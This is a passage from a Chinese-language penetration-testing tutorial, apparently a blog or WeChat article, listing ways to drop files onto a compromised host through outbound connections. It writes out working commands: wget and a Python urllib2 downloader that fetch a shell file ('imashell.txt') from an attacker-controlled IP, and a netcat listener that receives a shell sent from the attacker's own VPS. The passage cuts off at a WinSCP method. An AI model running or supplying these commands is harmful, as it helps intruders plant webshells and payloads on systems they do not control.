   
  
  
  
**25.使用wget落地文件（出网）**  
  
  
前面我们介绍了powershell的wget，这里再介绍另一个适用于Windows的wget，这玩意不是默认安装的，不过在实战中遇到过一些用惯了linux的运维也会在windows上装这玩意，所以遇到的概率相对还是比较高。我本机上之前做实验也装过，这里直接演示：  
  
 wget http://ip/imashell.txt -O "  
shell.txt"  
  
![](https://mmbiz.qpic.cn/mmbiz_png/SpFfMmvE6EpfDwtrqZ5F2NhjOHdRlSSru7jJOnPT9Om9aS4sDHSMPpqlHssInsiaZ6dJKEhvJjnU9lCjDdEjRnA/640?wx_fmt=png&from=appmsg "")  
  
  
  
  
**26.使用nc落地文件（出网）**  
  
  
这玩意也不是默认有的，不过同上面介绍的wget，有些运维就是爱用，这玩意也可以帮助落地文件  
  
在要落地文件的机器上执行如下命令：  
  
nc -l -p 12345 > received_file.txt  
  
![](https://mmbiz.qpic.cn/mmbiz_png/SpFfMmvE6EpfDwtrqZ5F2NhjOHdRlSSrdSAymyICjC5Wl0aibAghWcU1C0mpGwEmveqDkmGvDbeK3ZOib4MrhguA/640?wx_fmt=png&from=appmsg "")  
  
我们自己的VPS执行如下命令：  
  
Nc 目标IP 12345 <  
 shell.txt   //shell即为要发送的文件  
  
运行完这个命令后稍等一会结束掉本机进程，对面就能拿到文件了  
  
![](https://mmbiz.qpic.cn/mmbiz_png/SpFfMmvE6EpfDwtrqZ5F2NhjOHdRlSSrGWU0jh6M15NK1ficmlOXt0x9eOrco5RpcHSm6eaGKMFjwqfOA1icFXPA/640?wx_fmt=png&from=appmsg "")  
  
  
  
  
**27.通过常见语言环境（出网）**  
  
  
这种情况我单独把它归为一类，其实也很好理解，很多服务器都会装Python、java之类的环境，再比如你打进一个PHP站点，那他服务器肯定有php环境。以python为例，如果我们有文件写入条件，可以先写入一个简单的下载器：  
  
import urllib2  
  
u = urllib2.urlopen('http://ip/imashell.txt')  
  
localfile = open('imashell.txt','w')  
  
localfile.write(u.read())  
  
localfile.close()  
  
然后用python运行这个下载器，当然这样在我看来有点多此一举，这个思路也比较通用，看目标系统上有啥语言环境就相应去用就行了  
  
  
  
**28.利用winscp落地文件（出网）**  
  
  
Winscp也算是比较常见的工具，如果有这玩意也可以借助这玩意落地文件，我电脑上没有，就不截图演示了，网上文章给出的利用方法如下：  
  
#上传  
  